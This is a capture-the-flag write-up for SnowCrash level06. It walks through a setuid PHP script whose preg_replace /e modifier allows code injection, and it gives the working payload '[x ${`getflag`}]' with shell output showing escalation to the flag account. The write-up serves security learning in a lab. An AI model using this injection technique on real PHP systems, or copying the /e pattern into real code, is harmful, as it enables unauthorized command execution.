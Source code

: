 #SnowCrash Level06

Note: This level made me go crazy. Since I sucked at php.

We have a file and a binary in our home directory.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Lets see what we have on level06.php :
```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
this is so ugly, lets use a php beautifier
```
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
Okii now this is readable.
After some googling I found that we have a reg_replace exploit in the /e attribute.
It execute the code as a vairable.
There are 2 types of exploit in this case.
Since we have the function Y inside the quotes we need to use ${}.
Also we need a regex understanding.
Before that we find that the $y variable should be a file and it gets opened and read.
After some regex hell, we can finally say that the expression inside that file should be :
```
[x ${`phpinfo();`}]
```
I thought it's gonna work but it didn't.
```
level06@SnowCrash:~$ echo '[x ${`phpinfo();`}]' > /tmp/lvl06
level06@SnowCrash:~$ chmod 777 /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
sh: 1: Syntax error: ";" unexpected
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1

```
I almost gave up on this idea but then i found out, that its an sh error not php.
Change that phpinfo(); to getflag, and see the result.
```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
PHP Notice:  Undefined variable: Check flag.Here is your token : 
 in /home/user/level06/level06.php(4) : regexp code on line 1
```